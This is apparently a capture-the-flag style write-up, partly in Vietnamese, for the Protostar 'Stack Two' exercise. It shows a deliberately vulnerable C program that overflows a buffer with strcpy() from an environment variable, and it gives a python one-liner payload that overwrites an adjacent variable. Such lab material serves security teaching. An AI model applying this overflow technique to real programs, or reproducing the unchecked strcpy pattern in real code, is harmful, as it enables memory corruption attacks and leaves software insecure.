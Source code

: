 # STACK TWO

## About

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Solutions

`STACK TWO` được thay đổi một chút từ `STACK ONE` khi mà vẫn có thể khai thác buffer overflow thông qua `strcpy()` nhưng giá trị được sao chép là từ `Environment Variables` - `Biến môi trường` mà chương trình yêu cầu là `GREENIE`.

Ta tiến hành set giá trị cho biến môi trường `GREENIE`:

```
root@protostar:/opt/protostar/bin# GREENIE=$(python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"')           
root@protostar:/opt/protostar/bin# export GREENIE 
```
Lưu ý `Little edian` và lưu biến môi trường vào danh sách.

```
root@protostar:/opt/protostar/bin# ./stack2                                                             
you have correctly modified the variable
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://linuxconfig.org/how-to-set-and-list-environment-variables-on-linux>


